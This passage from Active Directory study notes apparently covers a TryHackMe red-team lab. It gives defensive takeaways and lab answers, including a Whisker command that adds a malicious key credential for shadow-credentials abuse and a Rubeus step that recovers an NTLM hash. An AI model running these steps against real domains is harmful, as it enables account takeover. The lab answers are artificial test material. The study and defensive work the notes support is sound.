| `-H` | NTLM hash for pass-the-hash authentication. |

**Defensive meaning:** This chain shows why least privilege and ACL review matter. A write permission that seems narrow can become account compromise if it allows key-credential modification.

## Conclusion

The source scenario demonstrates that a single AD misconfiguration can create a path to full Active Directory compromise. The defensive recommendation is to enforce the principle of least privilege: users and systems should have only the access required for their duties.

For SOC and security operations, the rapid-reference takeaway is:

- Protect domain controllers and `NTDS.dit`.
- Monitor privileged groups and delegated permissions.
- Review GPOs and SYSVOL changes.
- Understand Kerberos, NTLM, and trust behavior.
- Treat unexpected write rights over user objects as high-risk.
- Protect certificate services and `msDS-KeyCredentialLink`.
- Validate cloud and hybrid identity assumptions separately from on-premises AD assumptions.

## Practical Lab Notes and Answers

### AD Enumeration Answers

| Question | Answer / Method |
|---|---|
| List available user accounts within `THM` OU in the `thmredteam.com` domain. How many users are available? | `6` using `Get-ADUser -Filter * -SearchBase "OU=THM,DC=thmredteam,DC=com" | Measure-Object`. |
| What is the `UserPrincipalName` of the admin account? | `thmadmin@thmredteam.com`. |

### Shadow Credentials Lab Notes

| Question / Task | Source Notes |
|---|---|
| Identify the vulnerable user. | `vansprinkles` appears during ACL enumeration. |
| Add a malicious key credential for the vulnerable user. | `.\Whisker.exe add /target:vansprinkles`. |
| Request TGT and credentials. | Run the generated Rubeus command for `vansprinkles` using the certificate and password provided by Whisker. |
| What is the hash of the vulnerable user? | The final hash value is not recorded in the available source text. It should appear on the `NTLM :` line in the Rubeus output. |
| What is the content of `flag.txt` on the Administrator Desktop? | Not recorded in the available source text. |

## Extracted Image Asset Notes

The source contained additional broken image placeholders in the later lab sections. They were extracted into the asset folder using the required naming sequence but intentionally not embedded in the markdown body because they do not provide readable operational value.
